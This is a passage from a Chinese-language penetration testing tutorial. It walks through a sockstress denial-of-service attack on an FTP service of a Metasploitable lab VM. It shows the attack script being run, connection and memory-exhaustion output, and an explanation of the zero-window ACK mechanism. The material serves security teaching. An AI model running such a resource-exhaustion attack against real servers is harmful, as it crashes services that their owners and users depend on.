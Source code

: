 ```
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12257     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:54709     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:55595     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12992     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:24171     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:37207     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:39224     ESTABLISHED 
```

在执行脚本后的几分钟，我们可以看到已建立的连接的数量急剧增加。 此处显示的输出已截断，连接列表实际上明显长于此：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        497          6          0        149        
138 -/+ buffers/cache:        209        294 
Swap:            0          0          0 
```

通过连续使用`free` 工具，我们可以看到，系统的可用内存逐渐耗尽。 一旦内存空闲值下降到几乎没有，空闲缓冲区/缓存空间将开始下降：

```
msfadmin@metasploitable:~$ free -m             
             total       used       free     shared    buffers     cached 
Mem:           503        498          4          0          0          
5 -/+ buffers/cache:        493         10 
Swap:            0          0          0 
```

在本地系统上的所有资源耗尽之后，系统最终会崩溃。 完成此过程所需的时间将取决于可用的本地资源量。 在这里提供的示例中，这是在具有 512 MB RAM 的 Metasploitable VM 上执行的，攻击花费了大约 2 分钟来耗尽所有可用的本地资源并使服务器崩溃。 服务器崩溃后，或者你希望停止 DoS 攻击时，可以按`Ctrl + C`。

```
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
^C 
pressed Ctrl+C! 
Fixing IP Tables 
```

脚本被编写来捕获由于按`Ctrl + C`而发送的终止信号，并且它将通过去除在终止脚本的执行序列之前生成的规则,来修复本地 iptables。

### 工作原理

在 sockstress DoS 中，三次握手中的最后的 ACK 封包的窗口值为 0。由于连接客户端的空窗口所示，漏洞服务不会传送任何数据来响应连接。 相反，服务器会保存要在内存中传输的数据。 使用这些连接充斥服务器将耗尽服务器的资源，包括内存，交换空间和计算能力。

## 6.9 使用 Nmap NSE 执行 DoS 攻击

